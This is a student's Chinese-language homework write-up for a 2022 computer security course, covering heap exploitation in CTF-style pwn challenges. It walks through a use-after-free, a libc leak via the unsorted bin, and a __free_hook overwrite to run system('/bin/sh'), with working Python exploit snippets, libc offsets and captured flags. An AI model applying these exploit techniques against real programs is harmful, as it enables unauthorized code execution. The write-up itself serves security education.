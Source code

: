 # 2022 Computer Security HW7 Writeup - Pwn

[![hackmd-github-sync-badge](https://hackmd.io/7K8jim6uTFGGWeZsHXnioA/badge)](https://hackmd.io/7K8jim6uTFGGWeZsHXnioA)


* [HW7 github (Writeup and Payload)](https://github.com/fdff87554/Computer-Security-2022/tree/main/Homework-07)


## babynote - LAB

* 本題目設計成一個簡易的 note，分別有
    * `add_note()` - 新增 object
    * `edit_data()` - 修改 object
    * `del_note()` - 刪除 object
    * `show_notes()` - 顯示 object
* 在看程式碼的時候可以發現其中 `del_note()` 只有 `free` 而並沒有把 pointer -> NULL，這就可能造成 UAF (Use-After-Free) 的問題
* 因為知道會有 UAF 的問題，因此目標就是要先嘗試 leak address，因為有了 address 之後就有機會利用 overlapping chunk + UAF 建構任意結構，並且控制執行流程，因為題目環境是 glibc 2.31，所以知道可以寫 hook
* 今天因為要利用 free 時 pointer 沒有 to NULL 的操作來做到 leak address，因此建構了以下結構
    * 第一個區塊為一個 >= 0x420 的 chunk，因為這樣之後在 free 時才會被放置 unsorted bin
    * 接著的第二個區塊則是用來寫 sysbin 用的
    * 而第三個接續區塊則是用來改寫 free_hook 用的
    ```python3=
    # first chunk
    add(0, bytes('0'*8, 'utf-8'))
    edit(0, 0x418, bytes('0', 'utf-8'))

    # second chunk
    add(1, bytes('0'*8, 'utf-8'))
    edit(1, 0x18, bytes('0', 'utf-8'))

    # thrid chunk
    add(2, bytes('0'*8, 'utf-8'))
    ```
* 然後 leak `main_arena`，並得到 libc 的位置
    * 先把 first chunk 利用 delete free 掉，並且讓他被放置到 unsorted bin，接著利用 `show_notes()` 顯示 data 時，其中的內容就已經變成 fd 指向的 address，因此可以得到 leak adr 如下
        > ![](https://i.imgur.com/Dm2hirg.png)
* 藉由 lead address 得到 libc base address，且知道實際上 unsorted bin fd 指向的位置為 `main_arena + 96`，因此 libc_base 應該是 `leak_addr - 96 - 0x1ecb80`
    * `free_hook` 在 libc 的 offset 位置為 `0x1eee48`
    * `system` 在 libc 的 offset 位置為 `0x52290`
* 開始建立 fake chunk 來嘗試 get shell
    * 把剛剛的第二區塊的內容放置為 `/bin/sh` 字串，用來之後執行
    * 把剛剛連著的第三個區塊利用相連的特性 overflow 去修改內容，讓他指向 free_hook
    ```python=
    shell_str = b'/bin/sh\x00'.ljust(0x10, b'0')

    fake_chunk = flat(
        0, 0x21,
        b'00000000', b'00000000',
        free_hook,
    )

    edit(1, 0x38, shell_str + fake_chunk)
    edit(2, 0x8, p64(system))
    ```
* 之後再 delete 第二個區塊就可以 get shell 了，原因是因為 free_hook 中不是空的，因此會把第二個區塊中的 `/bin/sh` 當作函式執行，也就是等於執行了 `system("/bin/sh")`
* 最後取得 flag: `FLAG{babynote^_^_de9187eb6f3cbc1dce465601015f2ca0}`


## babyums (flag1) - HW

* 因為題目看起來跟 babynote 可以說是接近一模一樣，因此且第二題已經提示 flag 是在 `/home/chal`，因此目標一樣是建立在 get shell 上，決定直接看題目中的 `#define FLAG1 "xxxx"`。
* 這題差異的部分在於，User 這個 struct 裡面多了一個 `password[0x11]`，因此只要在建立 fake chunk 的流程中注意這個部分並修改內容跟大小，就可以一樣利用 `delete(1)` getshell，
    ```python=
    shell_str = b'/bin/sh\x00'.ljust(0x10, b'0')

    fake_chunk = flat(
        0, 0x31,
        b'00000000', b'00000000',
        b'00000000', b'00000000',
        free_hook,
    )

    edit(1, 0x48, shell_str + fake_chunk)
    edit(2, 0x8, p64(system))
    ```
* 並且直接 cat babyums.c 拿到 flag: `flag{C8763}` <- 這邊是小寫的 flag

## babyums (flag2) - HW

* 承上一題，因為已經 getshell 了，所以直接把 flag 印出
* flag: `FLAG{crocodile_9d7d8f69be2c2ab84721384d5bda877f}`


---
###### tags: `CyberSec` `Writeup` `2022`

<style>
.navbar-brand::after { content: " × Crazyfire Lee"; }
</style>